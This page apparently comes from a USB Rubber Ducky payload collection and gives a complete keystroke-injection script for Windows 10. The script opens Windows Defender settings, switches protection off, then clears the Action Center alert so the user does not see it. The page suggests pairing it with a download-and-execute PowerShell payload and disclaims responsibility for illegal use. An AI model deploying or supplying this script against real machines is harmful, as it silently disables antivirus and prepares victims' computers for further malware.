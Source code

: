 A ducky script that disables Windows defender, then clears the action center prompt

NOTE: this is only tested on the windows 10 1607 build, AKA the anniversary edition.

Most older machines will probably need more delay

This can be combined with other scripts. 


Preview: https://www.youtube.com/watch?v=XTF0U5jN1us

when combined with [[Payload - Windows 10 : Download and execute file with Powershell]]**:** https://www.youtube.com/watch?v=r6vwQ6QJujg

```
REM turn off windows defender then clear action center
REM author:judge2020
REM You take responsibility for any laws you break with this, I simply point out the security flaw
REM
REM start of script
REM
REM let the HID enumerate
DELAY 2000
ESCAPE
DELAY 100
CONTROL ESCAPE
DELAY 100
STRING Windows Defender Settings
ENTER
DELAY 2000
TAB
DELAY 50
HOME
DELAY 50
ALT F4
DELAY 3200
GUI a
DELAY 500
ENTER
DELAY 100
GUI a
```